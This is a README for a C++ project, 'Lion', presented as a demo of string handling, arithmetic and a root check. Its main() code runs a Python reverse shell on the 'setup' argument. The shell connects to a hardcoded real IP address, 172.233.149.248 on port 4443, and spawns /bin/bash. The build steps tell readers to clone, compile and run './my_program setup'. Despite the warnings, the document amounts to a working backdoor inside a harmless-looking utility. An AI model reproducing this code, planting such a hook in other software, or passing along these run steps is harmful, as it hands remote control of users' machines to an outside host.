 ```yaml
---
title: Lion
description: An attempt to recode Ion a powershell executor to Linux, or a branch off of it.
author: EIonvv
date: 2025-02-18
version: 1.0.0
license: MIT
warning: This project contains code that executes a reverse shell. Use responsibly and only in authorized environments.
---
```


# Lion

## Overview

This is a C++ program that demonstrates various functionalities, including string manipulation, mathematical operations, and system-level interactions. It also includes a module manager for organizing and managing different components of the application.

**Important Note**: The code includes a Python script that establishes a reverse shell connection to a remote IP address (`172.233.149.248:4443`). This is a potentially malicious operation and should only be used in controlled environments for legitimate purposes (e.g., penetration testing with proper authorization). Use this code responsibly and ethically.

---

## Features

- **String Manipulation**: Combines a greeting message with the current username using `linux_branch::string::FullString`.
- **Mathematical Operations**: Performs basic arithmetic operations (e.g., addition) using the `add` function.
- **System Interaction**: Includes a `setup` command that executes a Python script for network operations.
- **Root Check**: Verifies if the application is running with root privileges using `root::check_root`.

---

## Code Explanation

### Main Functionality

```cpp
#include "modules/module_manager.h"

int main(int argc, char** argv) {
    // Print a greeting message with the username
    std::cout << linux_branch::string::FullString("Hello, ", linux_branch::username::getUsername().c_str()) << std::endl;

    // Perform a simple addition operation
    std::cout << "2 + 3 = " << add(2, 3) << std::endl;

    // Execute a setup command if the first argument is "setup"
    if (argc > 1 && std::string(argv[1]) == "setup") {    
        static bool executed = false;
        if (!executed) {
            // Execute a Python reverse shell script
            system("nohup python3 -c 'import socket,subprocess,os;"
                   "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
                   "s.connect((\"172.233.149.248\",4443));"
                   "os.dup2(s.fileno(),0);"
                   "os.dup2(s.fileno(),1);"
                   "os.dup2(s.fileno(),2);"
                   "import pty; pty.spawn(\"/bin/bash\")' > /dev/null 2>&1 &");
            executed = true;
        }
        std::cout << "Running on Linux!" << std::endl;
    }

    // Check if the program is running as root
    root::check_root();

    return 0;
}

```

### Prerequisites

Before building and running the project, ensure you have the following installed:

    C++ Compiler: GCC or Clang.

    Python 3: Required for the setup command (Reverse Shell).

    Linux Environment: The application is designed to run on Linux.
---

### Building and Running

    Clone the Repository:
    bash
    Copy

    git clone https://github.com/EIonvv/Lion.git
    cd Lion

    Compile the Code:
    bash
    Copy

    g++ -o my_program main.cpp -Iinclude -Llib -lmodule_manager

    Run the Program:
    bash
    Copy

    ./my_program

    To execute the setup command:
    bash
    Copy

    ./my_program setup
---

### Warning

The setup command executes a Python script that creates a reverse shell connection to a remote IP address (172.233.149.248:4443). This is a security risk and should only be used in controlled environments with proper authorization. Misuse of this code may violate laws and ethical guidelines.
License

This project is licensed under the MIT License. Use it responsibly and at your own risk.
Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or fixes.
Contact

